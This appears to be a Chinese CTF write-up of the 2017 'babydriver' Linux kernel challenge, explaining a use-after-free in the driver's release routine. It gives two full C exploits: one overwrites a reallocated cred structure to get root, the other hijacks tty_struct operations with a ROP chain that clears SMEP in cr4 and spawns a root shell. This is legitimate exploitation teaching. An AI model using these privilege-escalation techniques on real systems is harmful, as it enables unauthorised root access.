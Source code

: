 ```yaml
---
layout: post
title: Linux  Kernel  Pwn  UAF
description: 无论在PWN题还是现实环境中，UAF是非常强大而且容易出现的漏洞，本篇主要学习Linux Kernel PWN 的UAF漏洞，如何用UAF达到提权的目的。
categories:  Linux-Kernel-Pwn
---
```




<!-- more -->

# 0x01 背景知识

**UAF漏洞**：UAF 漏洞是当我们 free 掉某个指针变量所指向的堆块的时候，未将该指针变量置0，导致该指针依然指着该堆块地址，当我们引用该指针的话，也就引用该指针所所指向的地址。这个漏洞对于开发者很容易忽略，但威力非常强大

**条件竞争**：在多线程的环境下，当多个线程同时访问某一个共享代码、变量或文件的时候，就有可能发生条件竞争的漏洞，利用该漏洞可以产生意想不到的效果，不过有时候需要碰撞该漏洞才行，有一定失败几率。（在linux kernel pwn里面一般开了多线程就很有可能是利用条件竞争）

**cred**：当我们fork一个新的进程的时候会产生cred结构体，在task_struct中大小为0xa8，注意当cred的uid,gid为0的话，我们就提权成功

**ptmx**:当我们open("/dev/ptmx")的时候，会分配一个tty_operation的结构体,覆盖该结构体可以将控制流劫持到我们的代码中

 **cr4**：控制寄存器,功能之一开启关闭smep和smap保护，只要将cr4寄存器对应SMAP、SMEP保护位置为0即可关闭对应保护，常用mov,cr4,0x6f0

# 0x02 2017国赛 babydriver
#### 保护分析
只开启了 nx 保护
 ![](/images/character2/UAF1.png)
只开启smep，不能ret2usr
 ![](/images/character2/UAF2.png)
#### 逻辑分析
**ioctl**：kfree 掉device_buf,kmalloc用户指定大小的堆块
 ![](/images/character2/UAF3.png)
**babywrite**：从用户的buf里面写入到device_buf,大小要小于堆块的大小
 ![](/images/character2/UAF4.png)
**babyread **：将device_buf读入到用户指定的buf
![](/images/character2/UAF5.png)
 **babyrelease**:kfree 掉指定的 device_buf,但没有置0，UAF 漏洞
 ![](/images/character2/UAF6.png)

# 0x03 编写EXP
EXP思路1：
1.fd1,fd2打开device
2.fd1用ioctl 让 device 去 malloc 0xa8大小的堆块后free掉
3.fork一个新的进程
4.用fd2将device_buf全都置0
5.执行system('/bin/sh')

这里很多人可能看不明白3-5，详细讲下：linux kernel使用slab分配器来分配堆块，就像fastbin的后进先出一样，当我们fork一个新的进程后，会malloc一个0xa8大小的cred的结构体，此时slab会找到device_buf对应的堆块地址并分配给cred，只要我们用uaf将这个cred对应的uid，gid设置为0，则该进程对应的权限即为root权限，然后执行system("/bin/sh")就会得到shell了

exp代码如下：
一些编写exp的技巧我已写在上一篇文章中

```
#include<stdio.h>
#include<fcntl.h>
#include <unistd.h>
int main(){
    int fd1,fd2,id;
    char cred[0xa8] = {0};
    fd1 = open("dev/babydev",O_RDWR);
    fd2 = open("dev/babydev",O_RDWR);
    ioctl(fd1,0x10001,0xa8);
    close(fd1);
    id = fork();
    if(id == 0){
        write(fd2,cred,28);
        if(getuid() == 0){
            printf("[*]welcome root:\n");
            system("/bin/sh");
            return 0;
        }
    }
    else if(id < 0){
        printf("[*]fork fail\n");
    }
    else{
        wait(NULL);
    }
    close(fd2);
    return 0;
}

```
EXP思路2:
关闭cr4，然后ret2usr
1.fd1,fd2打开device
2.fd1用ioctl 让 device 去 malloc 0x2e0大小的堆块后free掉
3.fd3打开ptmx创建tty_struct到device_buf的地址
4.fd2读取tty_struct到用户的buf中
5.利用uaf，让fd2的重写tty_struct，将里面的tty_operation劫持到我们伪造的fake_tty_operation，fake_tty_operation放入rop，使用write的时候即可调用rop
6.fd3执行write，调用tty_operation[3]，这里放入mov,rsp,rax执行栈劫持，rax是我们fake_tty_opeartion的结构体,就可以实现rop了
 ![](/images/character2/UAF7.png)

exp代码如下:

```
//poc.c
//gcc poc.c -o poc -w -static
#include<stdio.h>
#include<unistd.h>
#include<fcntl.h>
unsigned long user_cs, user_ss, user_eflags,user_sp;
size_t commit_creds_addr = 0xffffffff810a1420;
size_t prepare_kernel_cred_addr = 0xffffffff810a1810;
void* fake_tty_opera[30];
 
void shell(){
    system("/bin/sh");
}
 
void save_stats(){
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        :"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
        :
        : "memory"
    );
}
 
void get_root(){
    char* (*pkc)(int) = prepare_kernel_cred_addr;
    void (*cc)(char*) = commit_creds_addr;
    (*cc)((*pkc)(0));
}
 
int main(){
    int fd1,fd2,fd3,i=0;
    size_t fake_tty_struct[4] = {0};
    size_t rop[20]={0};
    save_stats();
 
    rop[i++] = 0xffffffff810d238d;      //pop_rdi_ret
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff81004d80;      //mov_cr4_rdi_pop_rbp_ret
    rop[i++] = 0x6161616161;
    rop[i++] = (size_t)get_root;
    rop[i++] = 0xffffffff81063694;      //swapgs_pop_rbp_ret
    rop[i++] = 0x6161616161;
    rop[i++] = 0xffffffff814e35ef;      // iretq; ret;
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_eflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
 
    for(i = 0; i < 30; i++)
    {
        fake_tty_opera[i] = 0xffffffff8181bfc5; //pop rax,pop rbp,ret
    }
    ////pop rax; pop rbp; ret;
    fake_tty_opera[0] = 0xffffffff810635f5;     
    fake_tty_opera[1] = (size_t)rop;

    //当调用write时，就会指向3，此时mov rsp,rax ; dec ebx ; ret
    //执行完后，rsp=fake_tty_opera[0],就会执行从我们构造的栈，执行了。
    fake_tty_opera[3] = 0xffffffff8181bfC5;    
    fake_tty_opera[7] = 0xffffffff8181bfc5; 
 
    fd1 = open("/dev/babydev",O_RDWR);
    fd2 = open("/dev/babydev",O_RDWR);
    ioctl(fd1,0x10001,0x2e0);
    close(fd1);
    fd3 = open("/dev/ptmx",O_RDWR|O_NOCTTY);
    read(fd2, fake_tty_struct, 32);
    fake_tty_struct[3] = (size_t)fake_tty_opera;
    write(fd2,fake_tty_struct, 32);
    write(fd3,"cc-sir",6);                      //触发rop
    return 0;
}

```
# 0x04 总结
Linux Kernel Pwn不只是commit_creds(prepare_kernel_cred(0))这一条路，条条道路通罗马，要想对Linux Kernel完全渗透利用，必须要对Linux操作系统和内核源码理想透彻

题目下载地址：https://github.com/Vinadiak/LinuxKernelPwn/tree/master/2017%20babydriver

